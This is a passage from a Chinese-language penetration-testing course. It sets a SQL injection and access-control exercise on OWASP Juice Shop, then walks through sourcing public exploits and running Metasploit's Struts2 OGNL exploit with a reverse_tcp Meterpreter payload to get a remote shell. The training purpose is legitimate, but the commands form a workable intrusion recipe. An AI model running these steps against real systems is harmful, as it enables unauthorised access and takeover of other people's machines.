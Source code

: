 
#### **4. 实战演练：OWASP Juice Shop**

**你的任务：** OWASP Juice Shop 是一个故意设计了大量漏洞的在线商店，是你的训练场。

1. 下载并运行它（使用Docker最简单）。
2. 使用Nmap、Nikto对其进行自动化扫描，记录结果。
3. 配置Burp Suite，手动完成以下任务：
   * **任务A（SQL注入）：** 成功登录管理员账户。提示：尝试在登录框注入。
   * **任务B（越权访问）：** 以普通用户身份，看到另一个用户的购物篮。
4. **交付物：** 一份文档，详细记录你完成这两个任务的每一步操作，包括你构造的URL、注入的payload以及关键的截图。

---

### **模块三：数字钥匙铸造与应用**

**目标：** 你已经学会了找锁的缺陷。现在，你要学会如何根据缺陷，铸造出能打开它的“钥匙”（Exploit），并真正地进入房间。

#### **1. 权限获取的艺术**

* **Exploit核心概念：** 漏洞是程序设计上的一个“逻辑错误”，Exploit是利用这个错误的一段“精心构造的输入”。

  * **漏洞：** 门锁的设计师忘记考虑有人会用一根铁丝从缝隙里拨动弹子。
  * **Exploit：** 那根经过特定角度弯折，能完美拨动弹子的铁丝。
  * **Payload (载荷):** 你用铁丝打开门后，要做的具体事情——比如进去偷东西、或者在里面安放一个窃听器。
* **Exploit信息源：** 你不需要每次都自己造钥匙，绝大多数时候，网上已经有现成的了。

  * **Exploit-DB:** 权威的漏洞利用代码库。
  * **GitHub:** 用CVE编号（如 `CVE-2021-44228`）或软件名+`exploit`作为关键词搜索，经常能找到最新的利用代码。
  * **Metasploit Framework:** 一个集成了海量Exploit和Payload的“瑞士军刀”平台，是本模块的重点。

#### **2. Exploit的修改与应用**

* **代码微调：** 从网上下载的Exploit脚本（通常是Python/Ruby/Bash）很少能直接运行。你必须打开它，阅读并理解它。通常需要修改：

  * `RHOST` / `RHOSTS`: 远程主机，即你的目标IP。
  * `RPORT`: 远程端口，即目标服务运行的端口。
  * `LHOST`: 本地主机，即你的IP地址，用于接收反弹的Shell。
  * `LPORT`: 本地端口，即你在自己机器上监听的端口。
* **Metasploit Framework实战：**

  1. 启动框架：`msfconsole`
  2. **搜索模块：** `search CVE-2017-5638` (搜索Struts2的著名漏洞) 或 `search type:exploit platform:windows smb` (搜索Windows平台上利用SMB服务的Exploit)。
  3. **使用模块：** `use exploit/multi/http/struts2_content_type_ognl`
  4. **查看配置：** `show options`。你会看到所有需要设置的参数，其中Required为yes的必须设置。
  5. **设置参数：** `set RHOSTS 192.168.1.100`
  6. **设置Payload:**
     * `show payloads` 查看该Exploit支持哪些载荷。
     * `set payload windows/x64/meterpreter/reverse_tcp` (选择一个强大的、加密的、功能丰富的反向连接Meterpreter Shell)。
     * **理解Payload类型：**
       * `reverse_tcp` (反向连接): 目标机主动连接你。优点是能穿透防火墙。这是99%情况下你的首选。
       * `bind_tcp` (正向连接): 你主动连接目标机。优点是简单直接，但如果目标机在防火墙后，则无法连接。
  7. **设置Payload参数：** `set LHOST 192.168.1.5` (你的IP), `set LPORT 4444` (你监听的端口)。
  8. **发动攻击：** `exploit` 或 `run`。Metasploit会自动为你打包好Exploit和Payload，发送给目标。
  9. **接收Shell:** 如果成功，你会看到一个 `meterpreter >` 或 `shell >` 的提示符。恭喜，你已经进入了目标系统。
